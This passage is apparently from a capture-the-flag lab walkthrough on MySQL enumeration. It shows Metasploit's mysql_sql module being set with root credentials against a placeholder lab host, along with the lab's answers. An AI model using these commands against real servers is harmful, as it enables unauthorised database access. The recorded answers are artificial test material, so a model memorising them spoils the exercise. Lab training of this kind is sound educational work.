 ![Guide image](./screenshots/network-services-2-15.png)

**=> Answer: `PASSWORD/RHOSTS/USERNAME`**

- Run the exploit. By default it will test with the "select version()" command, what result does this give you?<br />

```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > exploit
```

![Guide image](./screenshots/network-services-2-16.png)

**=> Answer: `8.0.42-0ubuntu0.20.04.1`**

